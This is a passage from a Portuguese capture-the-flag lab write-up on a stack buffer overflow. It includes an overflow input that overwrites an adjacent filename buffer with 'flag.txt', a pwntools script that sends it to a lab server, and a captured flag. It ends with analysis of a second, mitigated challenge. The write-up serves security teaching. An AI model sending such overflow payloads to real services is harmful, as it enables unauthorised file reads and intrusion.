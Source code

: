3. Existe algum buffer-overflow? Se sim, o que é que podes fazer?
    - Sim, é feito *scanf()* de um máximo de 28 caracteres para `char buffer[20]`
    que se encontra junto de `char meme_file[8]`.

Assim sendo, tornou-se óbvio que bastaria forncecer como input 20 caracteres seguidos
pelo nome do ficheiro que contém a *flag*: `flag.txt`

Decidimos que o input fornecido seria:
```
11111111111111111111flag.txt
```

Utilizámos o *script* em *python* fornecido:
```py
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('10.227.243.188', 4003)

r.recvuntil(b":")
r.sendline(b"11111111111111111111flag.txt")
r.interactive()
```

E realizámos o ataque:  
![/imgs5/ctf/flag1.png](/imgs5/ctf/flag1.png)

(Nota: a *flag* submetida foi outra, dado que quando fizemos o *ctf* pela primeira vez
não tiramos *print*, guardando apenas a *flag*: `flag{28c75ec90c0b6c3022b7e315c2ff7645}`)


### Desafio 2

Começamos por correr de novo `checksec` obtendo os mesmos resultados que no Desafio 1.

Após isto, analisámos o *source code* de modo a responder às questões levantadas no enunciado:

1. Que alterações foram feitas?  
    - Foi adicionado o *buffer* `char val[4]` entre `char meme_file[8]` e `char buffer[20]`.
    - É verficado se o conteúdo de `char val[4]` é igual a `0xfefc2122` para tentar abrir o ficheiro.
2. Mitigam na totalidade o problema?
    - Não.
3. É possivel ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente?
    - Sim.
